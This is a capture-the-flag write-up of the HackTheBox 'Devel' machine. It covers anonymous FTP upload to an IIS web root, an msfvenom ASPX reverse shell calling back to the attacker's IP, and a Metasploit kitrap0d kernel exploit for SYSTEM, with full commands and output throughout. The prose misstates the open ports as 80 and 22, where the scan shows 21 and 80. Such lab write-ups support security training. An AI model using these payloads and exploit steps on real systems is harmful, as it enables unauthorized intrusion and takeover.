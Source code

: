 ```yaml
---
layout: post
title: HackTheBox - Devel
categories: htb
permalink: /htb-devel
---
```


Starting off with a nmap scan to determine open ports, thus attack vector !

```bash
$ nmap -sCV -v -n -p- -T4 --max-retries 0 --max-rate 1000 -oN nmap-devel.txt 10.10.10.5
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-06 11:30 GMT
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating NSE at 11:30
Completed NSE at 11:30, 0.00s elapsed
Initiating Ping Scan at 11:30
Scanning 10.10.10.5 [2 ports]
Completed Ping Scan at 11:30, 0.37s elapsed (1 total hosts)
Initiating Connect Scan at 11:30
Scanning 10.10.10.5 [65535 ports]
Warning: 10.10.10.5 giving up on port because retransmission cap hit (0).
Discovered open port 21/tcp on 10.10.10.5
Discovered open port 80/tcp on 10.10.10.5
Connect Scan Timing: About 0.30% done
---SNIP---
```

Nmap has found that there are two open ports on the victim machine; port 80 & 22. Navigating to the web server reveals that the default pages of IIS are in place. Alternatively, if we check the Burp response, we can see that the *server* header shows the server is indeed "Microsoft IIS/7.5".

![burp_index_response](/Users/kr0ff/Desktop/git/kr0ff.github.io/assets/htb-images/devel/burp_index_response.png)

Nmap has also found that the FTP service allows anonymous connection. By logging in the service, it's revealed that the root folder of the FTP is the root folder of the IIS server. Trying to upload a file also appeared to be successful, therefore uploading a webshell[^webshell] should allow for command execution.

![devel_ftp_revshell_upload](/Users/kr0ff/Desktop/git/kr0ff.github.io/assets/htb-images/devel/devel_ftp_revshell_upload.png)

Generating an `.aspx` formated reverse shell via msfvenom was a great way to get access to the system. 

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.10 lport=7001 -f aspx -o revshell.aspx
```

After the generation of the reverse shell, uploading it to the system via the FTP service allowed to be executed via navigating to it in the browser.

```bash
$ rlwrap ncat -lnvp 7001 
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7001
Ncat: Listening on 0.0.0.0:7001
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49173.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

The use of `rlwrap` allows the use of the arrow keys while using netcat. It is simply a read-line wrapper and is similar to the `stty raw -echo `[^stty] method.  This tool can be downloaded using the package manager in kali simply by typing the below.

```bash
$ sudo apt update && sudo apt install rlwrap -y
```

Checking `systeminfo` for patches, reveals that the windows 7 x86 machine was never updated meaning it is exposed to a lot of privilege escalation attacks. Copying the output of `systeminfo` and pasting it locally, a tool such as "Windows-Exploit-Suggester"[^wes-tool] could be used to check what exploits can be used to attack the system and escalate the privilages.

```bash
$ ./windows-exploit-suggester.py -i ../systeminfo.txt -d 2020-12-06-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
---SNIP---
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
--> [M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important <--
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```

The *ms10_015_kitrap0d* can be used to elevate the privilages by exploiting a kernel vulnerability. Metasploit has available module which could this automatically. Repeat the same steps done to generate a generic non-meterpreter payload to create a meterpreter alternative. Afterwards, use *multi/handler* and set the payload you used for the generation of the reverse shell file.

```bash
$ msfconsole -q
msf5 > use multi/handler

msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set lhost 10.10.14.10
lhost => 10.10.14.10

msf5 exploit(multi/handler) > set lport 7001
lport => 7001

msf5 exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

msf5 exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.10.14.10:7001 
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.10:7001 -> 10.10.10.5:49166) at 2020-12-22 14:56:22 +0000
```

After obtaining the reverse shell in metasploit, session has to be backgrounded and lastly a search for *kitrap0d* showed the needed module. 

```bash
msf5 exploit(multi/handler) > search kitrap0d

Matching Modules
================

   #  Name                                     Disclosure Date  Rank   Check  Description
   -  ----                                     ---------------  ----   -----  -----------
   0  exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D
```

Lastly, using the module, setting up the session number of the meterpreter session should allow for the module to successfully complete the exploitation to escalate privileges to *NT AUTHORITY/SYSTEM*. 

```bash
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1

msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.10:7002 
[*] Launching notepad to host the exploit...
[+] Process 2964 launched.
[*] Reflectively injecting the exploit DLL into 2964...
[*] Injecting exploit into 2964 ...
[*] Exploit injected. Injecting payload into 2964...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.10:7002 -> 10.10.10.5:49169) at 2020-12-22 14:58:40 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Finally, the box was completed and flags can be read.

[^webshell]: Simple CMD aspx webshell: <https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/web-backdoors/asp/cmd.aspx>
[^stty]:STTY shell command: <https://renenyffenegger.ch/notes/Linux/shell/commands/stty>
[^wes-tool]: Windows Exploit Suggester: https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

